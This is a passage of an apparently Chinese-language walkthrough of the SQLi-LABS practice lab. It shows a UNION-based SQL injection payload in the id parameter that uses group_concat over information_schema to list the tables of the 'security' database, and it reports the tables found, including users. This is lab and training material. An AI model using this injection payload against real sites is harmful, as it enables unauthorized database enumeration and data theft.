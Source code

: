![image-20210922213025200](../../images/SQLi-LABS/image-20210922213025200.png)

+ 这里使用的数据库名为"**security**"，新增我们尝试获取该数据中所有表名。

```sql
# 如果不使用group_concat()函数会导致错误。
?id=' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = database()),user() --+
```

+ 这里查出来了`authors,emails,referers,uagents,users`五个表。

![image-20210922214305778](../../images/SQLi-LABS/image-20210922214305778.png)
